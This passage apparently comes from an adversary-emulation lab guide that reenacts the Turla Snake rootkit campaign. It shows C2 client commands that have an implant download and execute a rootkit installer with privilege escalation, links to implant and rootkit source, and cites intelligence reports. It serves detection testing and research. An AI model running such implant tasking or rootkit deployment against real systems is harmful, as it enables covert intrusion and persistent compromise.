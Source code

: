 
### :biohazard: Procedures

* In your Kali C2 server, ensure that you are in the lower split terminal window.

* Task the EPIC implant to download the Snake rootkit installer.

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'name | C:\\Users\\Egle\\Desktop\\gusbsys.exe | snake.exe'
```

* Wait 1 minute after the payload is sucessfully downloaded before tasking the implant to execute the Snake rootkit installer with the privilege escalation option:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | C:\\Users\\Egle\\Desktop\\gusbsys.exe -f'
```

* :arrow_right: Switch to your RDP session in `azuolas (10.100.40.103)` and go to your Edge window. Perform a hard refresh on the current page by pressing Ctrl+Shift+R.

:arrow_right: Return to your Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server. 

### :moyai: Source Code

* EPIC
  * File download [DownloadFile](../../Resources/EPIC/payload/src/epic.cpp#L441-L466)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)

### :microscope: Cited Intelligence

* [Report 9: Securelist/Artemon- Uroburos](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2014/08/20082358/uroburos.pdf)
* [Report 10: BAE/Artemon- Snake](https://artemonsecurity.com/snake_whitepaper.pdf)
* [Report 11: GData- Uroburos](https://public.gdatasoftware.com/Web/Content/INT/Blog/2014/02_2014/documents/GData_Uroburos_RedPaper_EN_v1.pdf)
* [Report 12: CIRCL- TR-25](https://www.circl.lu/pub/tr-25/)
* [Report 13: GData- Kernel Protection Mitigation](https://www.gdatasoftware.com/blog/2014/03/23966-uroburos-deeper-travel-into-kernel-protection-mitigation)
* [Report 14: GData- using WinDbg](https://www.gdatasoftware.com/blog/2014/06/23953-analysis-of-uroburos-using-windbg)
* [Report 16: GData- Project Cobra](https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra)
* [Report 17: Tetrane- Uroburos with REVEN](https://blog.tetrane.com/2019/Analysis-Uroburos-Malware-REVEN.html)
* [Report 18: Talos- Snake Campaign](https://blog.talosintelligence.com/2014/04/snake-campaign-few-words-about-uroburos.html)
* [Report 19: Lastline- Dissecting Turla Rootkit](https://www.lastline.com/labsblog/dissecting-turla-rootkit-malware-using-dynamic-analysis/)
* [Report 20: Lastline- Kernel Exploit Makeover](https://www.lastline.com/labsblog/turla-apt-group-gives-their-kernel-exploit-a-makeover/)